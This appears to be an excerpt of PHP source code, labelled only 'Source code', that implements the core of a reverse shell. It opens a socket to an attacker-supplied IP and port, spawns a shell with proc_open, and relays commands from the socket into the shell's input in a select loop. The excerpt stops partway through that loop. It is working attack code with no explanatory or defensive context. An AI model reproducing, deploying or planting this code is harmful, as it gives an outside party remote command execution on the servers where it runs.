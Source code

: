 ```php
// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}
```